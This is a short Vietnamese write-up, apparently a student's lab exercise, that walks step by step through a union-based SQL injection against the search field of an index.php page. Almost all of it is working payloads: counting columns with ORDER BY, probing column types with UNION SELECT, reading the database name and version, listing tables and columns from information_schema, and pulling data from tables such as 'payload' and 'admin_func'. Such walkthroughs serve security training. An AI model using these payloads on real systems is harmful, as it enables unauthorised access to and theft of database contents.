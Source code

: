 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
	`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
	`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
	`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
	`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
	`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
	
6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
	`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
	
7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
	`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
	
8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
	`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string

9. Kiểm tra DB hiện tại
	`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 

10. Version của DB
	`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 

11. Lấy tất cả các table có trong DB
	`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)

12. Lấy tất cả các trường trong bảng admin_func
	`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn

13. Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`
	`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`